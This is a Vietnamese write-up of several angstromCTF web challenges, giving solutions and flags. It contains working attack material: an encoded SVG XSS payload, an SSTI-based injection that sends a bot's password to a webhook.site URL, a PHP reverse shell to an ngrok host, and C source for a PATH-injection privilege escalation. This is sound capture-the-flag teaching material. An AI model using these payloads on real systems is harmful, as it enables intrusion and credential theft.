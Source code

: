 ## [10] catch me if you can

view source code sẽ tìm ra flag 

## [20] Celeste Speedrunning Association
Score cao nhất là 0, thử đưa một số rất lớn vào sẽ khiến nó tràn số về số âm (có vẻ code bằng JAVA)
```
start=168261534697465165489498497498
```

```
you win the flag: actf{wait_until_farewell_speedrun}
```

## [40] shortcircuit
Hàm chunk sẽ split flag ra thành mảng 4 phần tử, mỗi phần tử 30 character long, sau đó dùng swap hoán đổi vị trí 4 phần tử này, gọi swap 2 lần trên mảng trên thì mảng sẽ về vị trí ban đầu, join lại ta sẽ có flag

```
swap(swap(chunk("7e08250c4aaa9ed206fd7c9e398e2}actf{cl1ent_s1de_sucks_544e67ef12024523398ee02fe7517fffa92516317199e454f4d2bdb04d9e419ccc7", 30))).join("")
```

```
actf{cl1ent_s1de_sucks_544e67e6317199e454f4d2bdb04d9e419ccc7f12024523398ee02fe7517fffa92517e08250c4aaa9ed206fd7c9e398e2}
```

## [40] directory
Flag nằm ở một trong số cái file đó, bruteforce đến file 3054 sẽ thấy flag

https://directory.web.actf.co/3054.html
```
actf{y0u_f0und_me_b51d0cde76739fa3}
```

## [40] Celeste Tunneling Association
Theo code ta chỉ cần đưa giá trị `flag.local` vào header Host là sẽ có flag

```
actf{reaching_the_core__chapter_8}
```

## [80] hallmark
Goal là XSS để lấy flag từ cookie của con bot, nhưng cách thông thường thì ta sẽ không thể lấy được content type `image/svg+xml` nhằm đưa một file svg chứa javascript vào

Tuy nhiên tại route PUT, ta có thể update card, với logic xử lý bên dưới ta có thể update để card trả về `image/svg+xml` bằng lỗi type confusion
```
cards[id].type = type == "image/svg+xml" ? type : "text/plain";
    cards[id].content = type === "image/svg+xml" ? IMAGES[svg || "heart"] : content;
```
Request:
```http 
PUT /card HTTP/1.1
Host: hallmark.web.actf.co
Content-Length: 1202
Cache-Control: max-age=0
Sec-Ch-Ua: "Not:A-Brand";v="99", "Chromium";v="112"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "Windows"
Upgrade-Insecure-Requests: 1
Origin: https://hallmark.web.actf.co
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/112.0.5615.50 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: https://hallmark.web.actf.co/
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Connection: close

svg=text&content=%3c%3f%78%6d%6c%20%76%65%72%73%69%6f%6e%3d%22%31%2e%30%22%20%73%74%61%6e%64%61%6c%6f%6e%65%3d%22%6e%6f%22%3f%3e%0a%3c%21%44%4f%43%54%59%50%45%20%73%76%67%20%50%55%42%4c%49%43%20%22%2d%2f%2f%57%33%43%2f%2f%44%54%44%20%53%56%47%20%31%2e%31%2f%2f%45%4e%22%20%22%68%74%74%70%3a%2f%2f%77%77%77%2e%77%33%2e%6f%72%67%2f%47%72%61%70%68%69%63%73%2f%53%56%47%2f%31%2e%31%2f%44%54%44%2f%73%76%67%31%31%2e%64%74%64%22%3e%0a%0a%3c%73%76%67%20%76%65%72%73%69%6f%6e%3d%22%31%2e%31%22%20%62%61%73%65%50%72%6f%66%69%6c%65%3d%22%66%75%6c%6c%22%20%78%6d%6c%6e%73%3d%22%68%74%74%70%3a%2f%2f%77%77%77%2e%77%33%2e%6f%72%67%2f%32%30%30%30%2f%73%76%67%22%3e%0a%20%20%3c%70%6f%6c%79%67%6f%6e%20%69%64%3d%22%74%72%69%61%6e%67%6c%65%22%20%70%6f%69%6e%74%73%3d%22%30%2c%30%20%30%2c%35%30%20%35%30%2c%30%22%20%66%69%6c%6c%3d%22%23%30%30%39%39%30%30%22%20%73%74%72%6f%6b%65%3d%22%23%30%30%34%34%30%30%22%2f%3e%0a%20%20%3c%73%63%72%69%70%74%20%74%79%70%65%3d%22%74%65%78%74%2f%6a%61%76%61%73%63%72%69%70%74%22%3e%0a%20%20%20%20%61%6c%65%72%74%28%22%58%53%53%20%62%79%20%42%48%41%52%41%54%22%29%3b%0a%20%20%3c%2f%73%63%72%69%70%74%3e%0a%3c%2f%73%76%67%3e&id=2c05d443-a964-44b6-8d9f-6b91bbfdb41b&type[]=image/svg%2bxml
```
Ta sẽ craft được một link thực thi được JS, gửi link này đến bot và lấy flag
https://hallmark.web.actf.co/card?id=2c05d443-a964-44b6-8d9f-6b91bbfdb41b

## [110] brokenlogin
Ứng dụng chạy flask, nhìn vào đoạn sau ta có thể thấy lỗi SSTI
```
render_template_string(indexPage % custom_message, fails=fails)
```
`custom_message` là data lấy từ `request.args["message"]`, được đưa trực tiếp vào `render_template_string`, nhưng vấn đề flag không nằm ở đây là flag nằm ở password của con bot, nên có vẻ đây vẫn là challenge client side

Mặc định thì template engine sẽ escape html của tất cả output, ta không thể chèn tag html gì, nhưng vì ta có thể dùng template markup, jinja (flask mặc định sài jinja) có một keyword là safe để đánh dấu là output này safe và không cần escape, ta có thể dùng keyword này để chèn HTML vào và từ đó lead tới XSS

Nhưng để ý nếu payload dài quá 25 ký tự nó sẽ không nối input vào `render_template_string` nữa nên ta sẽ dùng 1 trick nhỏ

`{{request.args.a|safe}}`

```
https://brokenlogin.web.actf.co/?message={{request.args.a|safe}}&a=%3Cscript%3Ealert(%27a%27)%3C/script%3E
```
Ta sẽ lấy input từ một parameter khác là `a` thì ta sẽ bypass qua được length restriction

Tiếp theo ta sẽ dùng JS để thay đổi `action` của form để khi con bot submit thì nó sẽ gửi đến url của ta 
```
https://brokenlogin.web.actf.co/?message={{request.args.a|safe}}&a=%3Cscript%3Edocument.body.onload%20=%20()%20=%3E%20document.getElementsByTagName(%27form%27)[0].action%20=%20%22https://webhook.site/68a40976-d351-4dde-a022-b23547e4cc1c%22%3C/script%3E
```
webhook:
```
username=admin&password=actf%7Badm1n_st1ll_c4nt_l0g1n_11dbb6af58965de9%7D
```

## [180] filestore
Cái upload file thật ra để đánh lạc hướng đó ae, bài này gồm 2 giai đoạn, giai đoạn from LFI to RCE và leo quyền để đọc flag.

Về LFI to RCE, đọc source ta sẽ thấy nếu có param `f` thì nó sẽ `include "./uploads/" . $_GET["f"];` => Path traversal, nhưng vấn đề là include cái gì đây, đọc file thì ok nhưng mà cũng không thể đọc flag, cái flag đã bị set permission để chỉ cho admin đọc, mình là user `ctf` không đọc được. Ta sẽ đến với PEAR, PEAR (PHP Extension and Application Repository) là một framework của PHP, liên tưởng nó giống như NPM bên NodeJS, nó hỗ trợ coder tái sử dụng các class có sẵn của PHP (xử lý cache, DB, ...) để tiết kiệm thời gian khi dev. Bản thân nó là một CLI program, nhưng nếu PHP config set `register_argc_argv` thì pear sẽ có thể nhận các REQUEST paramater thay cho CLI argument, và PEAR thì gần như luôn tích hợp sẵn trong PHP

http://man.he.net/man1/pecl

Như ta thấy với option `config-create`, ta có thể tạo ra một config file, với việc có thể truyền tham số cho program thông qua các parameter, ta có thể write được một con Shell lên server và từ đó RCE
```
config-create  Create a Default configuration file
```
Với điều kiện ta tìm được 1 thư mục mà ta có quyền write, cùng với đó là config `register_argc_argv` được set là true. Với PHP docker image thì config `register_argc_argv` luôn được set, và theo như file docker thì permission của folder `www` bị đổi, ta không có quyền write vào nó, ta sẽ dùng thư mục `tmp`, write shell vào đây rồi dùng path traversal include file PHP đó 
![](https://i.imgur.com/pkIRLQX.png)

![](https://i.imgur.com/KoaL5Qo.png)

Giờ dùng PHP để lấy reverse shell
```http
GET /?f=../../../../tmp/shin24.php&c=php+-r+'$sock=fsockopen("0.tcp.ap.ngrok.io",10968);$proc=proc_open("/bin/sh+-i",+array(0=>$sock,+1=>$sock,+2=>$sock),$pipes);' HTTP/1.1
Host: filestore.web.actf.co
Cache-Control: max-age=0
Sec-Ch-Ua: "Not:A-Brand";v="99", "Chromium";v="112"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "Windows"
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/112.0.5615.50 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: none
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Connection: close


```

Giờ ta cat flag thôi nhở

![](https://i.imgur.com/HAgt4Bh.png)

Làm gì dễ thế =))), đây là state 2, ta sẽ phải priv esc để đọc được flag, check owner thấy flag.txt là của admin, vậy ta phải nâng quyền mình lên admin, trong các file mà ta được đưa có 2 file SUID binary, lúc đầu thì mình cũng khá confuse, để đỡ dài dòng thì mình sẽ nói luôn là ta cần chú ý vào file `list_uploads`, đưa vào IDA và f5 lên ta sẽ thấy nó đang gọi đến binary `ls`
![](https://i.imgur.com/5L8QjUR.png)

Nhưng mà lưu ý là ở đây nó gọi đến ls, chứ không phải `/bin/ls`, vậy thì ta có thể dùng PATH injection, tạo một file tên `ls` ở một folder nào đó (`tmp` đi) rồi chạy lại SUID kia, file `ls` sẽ là một file để spawn shell. Nội dung file `ls` của mình (thật ra là của robbert viết, pao thủ thế giới)
```c 
#define _GNU_SOURCE
#include <stdio.h>
#include <sys/types.h>
#include <sys/stat.h>
#include <fcntl.h>
#include <sched.h>
#include <sys/mman.h>
#include <signal.h>
#include <sys/syscall.h>
#include <sys/ioctl.h>
#include <linux/userfaultfd.h>
#include <sys/wait.h>
#include <poll.h>
#include <unistd.h>
#include <stdlib.h>
#define log_info(...) { \
    printf("[*] "); \
    printf(__VA_ARGS__); \
    putchar(10); \
};

int main(){
    setuid(999);
    if(getuid()!=999){
        puts("chiu");
        exit(-1);
    }
    execve("/bin/sh",NULL,NULL);
}
```

Đưa file này lên server và compile (hoặc compile rồi đưa lên server, nhớ là zip lại để không bị mất execute permission) rồi chạy file `list_uploads` ta sẽ spawn được shell với quyền admin, giờ thì cat flag thôi
